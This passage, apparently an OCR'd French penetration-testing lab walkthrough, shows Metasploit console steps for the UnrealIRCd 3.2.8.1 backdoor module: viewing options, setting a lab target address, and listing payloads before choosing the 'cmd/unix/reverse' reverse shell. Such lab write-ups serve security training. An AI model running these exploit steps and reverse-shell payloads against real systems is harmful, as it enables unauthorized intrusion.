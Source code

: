 On peut utiliser la commande `info` pour en savoir un peut plus sur l'exploit.

`options` nous indique qu'il faut définir une IP distante et un port. On définit l'IP distante avec `set`

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.56.115
RHOSTS => 192.168.56.115
```

On doit également définir un payload. On les liste avec `show payloads`. On peut alors selectionner un payload avec `set payload`.

On va ici choisir le reverse shell `cmd/unix/reverse`.

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                Disclosure Date  Rank    Check  Description
   -   ----                                ---------------  ----    -----  -----------
   0   cmd/unix/bind_perl                                   manual  No     Unix Command Shell, Bind TCP (via Perl)
   1   cmd/unix/bind_perl_ipv6                              manual  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   cmd/unix/bind_ruby                                   manual  No     Unix Command Shell, Bind TCP (via Ruby)
   3   cmd/unix/bind_ruby_ipv6                              manual  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   cmd/unix/generic                                     manual  No     Unix Command, Generic Command Execution
   5   cmd/unix/reverse                                     manual  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   cmd/unix/reverse_bash_telnet_ssl                     manual  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   cmd/unix/reverse_perl                                manual  No     Unix Command Shell, Reverse TCP (via Perl)
   8   cmd/unix/reverse_perl_ssl                            manual  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   cmd/unix/reverse_ruby                                manual  No     Unix Command Shell, Reverse TCP (via Ruby)
   10  cmd/unix/reverse_ruby_ssl                            manual  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   11  cmd/unix/reverse_ssl_double_telnet                   manual  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

```
